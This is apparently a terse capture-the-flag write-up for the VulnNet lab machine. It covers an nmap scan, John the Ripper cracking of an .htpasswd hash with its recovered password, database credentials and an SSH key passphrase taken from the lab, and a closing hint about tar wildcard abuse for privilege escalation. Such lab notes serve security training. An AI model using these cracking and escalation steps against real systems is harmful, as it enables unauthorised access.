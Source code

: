 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx vulnnet.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV vulnnet.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
by scanning vhosts, we found a subdomain broadcast" 
broadcast.vulnnet.thm


┌──(parallels㉿kali)-[~/hacking/thm/VulnNet]
└─$ john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)     
1g 0:00:00:30 DONE (2023-09-13 21:30) 0.03231g/s 69825p/s 69825c/s 69825C/s 9978..9972727
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


//Database Name
        $DBNAME = 'VulnNet';
        //Database Username
        $DBUSER = 'admin';
        //Database Password
        $DBPASS = 'VulnNetAdminPass0990';



oneTWO3gOyac     (id_rsa)


we can abuse /var/opt/backpserver.sh car il fait un tar wildcard (*)

